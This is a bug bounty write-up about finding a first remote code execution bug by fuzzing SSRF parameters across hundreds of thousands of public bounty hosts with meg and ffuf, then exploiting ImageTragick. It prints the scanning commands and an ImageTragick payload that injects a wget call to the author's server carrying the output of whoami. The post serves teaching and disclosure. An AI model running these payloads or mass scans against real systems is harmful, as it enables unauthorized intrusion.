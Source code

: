 ```yaml
---
title: "My first RCE: a tale of good ideas and good friends"
layout: post
categories:
  - hacking
tags:
  - hacking
---
```


## Summary (tldr)
Through the help of two friends, some bash tricks, the use of Tomnomnom's tool `meg`, and a service vulnerable to [ImageTragick](https://imagetragick.com/), I found my first RCE (and my first critical!) within the first two months of bug bounty hunting.

## Good friends and good ideas
I have always found value in surrounding myself with people I can learn from. In my professional work life, that's choosing to be around the most talented team member when possible. 

When I got into bug bounty, I immediately followed people like [@nahamsec](https://twitter.com/NahamSec), [@zseano](https://twitter.com/zseano), and [@stök](https://twitter.com/stokfredrik). They are very talented and get a lot of questions so I knew I needed to find other sources of help as well. 

Ben (@nahamsec) had started a discord. HackerOne also has a discord. I met [@healthyoutlet](https://twitter.com/healthyoutlet) on one of those discords and we've been friends ever since. We're constantly bouncing ideas off each other. One day I told him it would be awesome to use [@tomnomnom](https://twitter.com/TomNomNom)'s `meg` tool to hit ALL public bounty subdomains with different high-signal payloads and then grepping for signs that it was vulnerable. Like most hackers, he's a doer so he immediately pulled down the github repo of all public programs (https://github.com/arkadiyt/bounty-targets-data), found the domains for the wildcards with [findomain](https://github.com/Edu4rdSHL/findomain), and sent me the list. 

<iframe src="https://giphy.com/embed/oYtVHSxngR3lC" width="480" height="347" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

It was around 300,000 subdomains and >600,000 hosts because nearly all of them were running on both port 80 and 443. 

We tried lots of different payloads:
* CRLF via %0d%0a
* Path traversal
* Known sensitive paths
* etc.

The idea that resulted in this write-up (and therefore, my first critical!) was parameter fuzzing. I had the idea to search for SSRF via stuffing a bunch of parametes into a request like:
```
https://example.com?url=myserver.com/url&file=myserver.com/file...
```

So I was telling [@michael1026](https://twitter.com/Michael1026H1) about my idea and he suggested a big list of parameters. Since Discord keeps good history, I dug it up for this post:
```
content, counturl, dest_url, document, domain, download, file, http, https, image, image_src, imageurl, include, media, Page, pageurl, page_url, picture, referrer, req, request, source, src, uri, url
```

I am pretty frugal, and I hadn't made any money from bug bounty at this point, so I didn't have Burp Pro and collaborator. So here was the steps I took:
1. Start a simple server on my VPS with `python3 -m http.server`
2. Run the following command. I used return code 777 because I didn't really want to save off any repsponses.  
```
meg -c 100 -d 100 -s 777 "/?url=http://{my-server-ip}&file=http://{my-server-ip}&path=..." all_hosts.txt
```
3. Wait for a ping on my server.
4. ???
5. Profit!

Oh wait... maybe you already spotted the issue. I received a few pings on my simple http server, and I got really excited. But then I realized that I had no idea what parameter or host was vulnerabe.

## What I did to find the host and param name
I used the linux `split` command to cut the hosts into 100 files and wrote a `for` loop to iterate over them. I watched the simple server logs to see when I got a hit. Then I broke that flie into 100 files and did it again until I figured out the host. I did something similarly stupid to figure out the param name. It took a few hours when it shouldn't have, but it ended up being worth it :)

## What I should have done
1. I should have used [ffuf](https://github.com/ffuf/ffuf). It's an awesome and flexible fuzzer. Check it out if you haven't used it. 
2. Also, I should have added the parameter name to the path. Then I would immediately know which parameter was vulnerable.
3. It would have been nice to include the domain in the path of the request so I would know which domain was vulnerable. This has to change PER request, which isn't trivial. I could have used some bash magic and curl. But nowadays, with the new pitchfork mode in ffuf, I could have requested the domain in the endpoint path pretty easily. 

Putting it all together, I should have done: 
```
ffuf -c -u HOST/?url=http://{my-server-ip}/DOMAIN/url&file=http://{my-server-ip}/DOMAIN/file -w hosts.txt:HOST -w domains.txt:DOMAIN -mode pitchfork -v 
```
Hosts.txt would contain hosts including the protocol. Domains would be the hosts WITHOUT the protocal lining up line-per-line with the hosts. You could easily generate this with @tomnomnom's tool `unfurl` via a command like this: 
`cat hosts.txt | unfurl -format %d | tee -a domains.txt`

## Wrapping up

The vulnerable host had the word image in the subdomain. So I hosted an image on my server and did 
`curl -v https://vulnerablehost.com/url=http://{my-server-ip}/image.jpg` 
and sure enough, the vulnerable host grabbed the image from my server and then delivered it to me. I was telling [@healthyoutlet](https://twitter.com/healthyoutlet) everything I was doing and asking for advice. He told me to check the downloaded image size. sure enough, it was completely different than the original. I opened up an image compare tool and there were lots of pixel differences. It was definitely being processed. So then [@healthyoutlet](https://twitter.com/healthyoutlet) mentions that it might be using [ImageTragick](https://imagetragick.com/) and to look into it. I quickly googled it, found the PoC's on github and modified it so that the code being executed was 
```
push graphic-context
viewbox 0 0 640 480 
fill 'url(https://127.0.0.0/oops.jpg"|wget http://{my-server-ip}/$(whoami)'
pop graphic-context
```
After a few seconds, I got a hit on my simple server at `/Serving`. Not root, but it still proved RCE by the `wget` request being performed AND showing the username of the user running the web server.

<iframe src="https://giphy.com/embed/8JVjMCr3OIAhO" width="480" height="178" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

So, with imagetragick, an attacker can replace everything to the right of the pipe with whatever code they want. I thought about getting a shell and seeing if I could pivot or escalate, but RCE is already a critical, and I decided to play it on the safe side. 

## Take-aways

* Friends and collaboration are immensely valuable, especially when you're first starting. I wouldn't have found this without my friends helping.
* Creativity and huge data sets can lead to interesting findings.
* Don't assume old CVEs aren't still around. ImageTragick is a 2016 CVE and this was found on a well-known public bug bounty program.

I hope you enjoyed the write-up. I've got a few more from the last few months that might be interesting to write up as well. Let me know if you'd like to see those. 
